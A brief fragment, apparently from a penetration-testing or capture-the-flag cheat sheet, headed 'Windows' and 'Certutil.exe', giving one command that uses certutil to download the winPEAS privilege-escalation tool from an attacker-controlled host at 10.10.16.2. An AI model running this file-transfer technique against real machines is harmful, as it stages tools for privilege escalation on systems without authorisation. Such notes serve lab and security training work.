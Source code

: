 
Windows 

Certutil.exe
```
certutil.exe -urlcache -f http://10.10.16.2:8000/winPEASany.exe winpeas.exe
```


